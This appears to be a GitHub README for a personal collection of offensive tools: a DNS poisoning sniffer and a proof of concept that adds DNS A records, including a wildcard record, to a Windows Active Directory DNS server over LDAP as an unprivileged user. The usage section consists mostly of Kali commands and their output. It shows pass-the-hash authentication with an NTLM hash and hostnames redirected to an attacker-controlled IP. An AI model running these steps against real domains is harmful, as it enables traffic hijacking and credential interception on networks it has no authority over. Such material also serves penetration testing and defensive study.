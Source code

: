 # Vault
This is just a place where I put simple scripts and notes to access them quickly.

## SDPT (Simple DNS Poisoner Tool) 
Sniffes for DNS queries going through your attacker host and provides fake answers to the specified DNS type A queries. It also forwards other queries different than type A and those pointing to FQDN that are not specifically included within the fake list.

## LdapDNSToy
This simple PoC allows to insert DNS type A records on a Windows Domain DNS server via LDAP by means of a Domain User (without additional privileges) using Python. 
* The original idea can be read here: https://blog.netspi.com/exploiting-adidns/

*Note: This is just a PoC, so don't use it in production systems or do it under your risk.*

### Basic Usage:
**1. Adding a new DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

Host nodito.bransh.local not found: 3(NXDOMAIN)
root@kali:/#
```
Let's add it pointing to the attacker-controlled IP 10.x.x.111:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name nodito
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```
Wait for a few minutes and then try to solve it again:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

nodito.bransh.local has address 10.x.x.111
root@kali:/# 
```

**2. Adding a wildcard DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name \*
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```

Now, try to resolve any hostname such as unknown or trulyunknown and observe how they ALL point to the same attacker-controlled IP:
```
root@kali:/# host unknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

unknown.bransh.local has address 10.x.x.111
```
```
root@kali:/# host trulyunknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

trulyunknown.bransh.local has address 10.x.x.111
root@kali:/# 
```
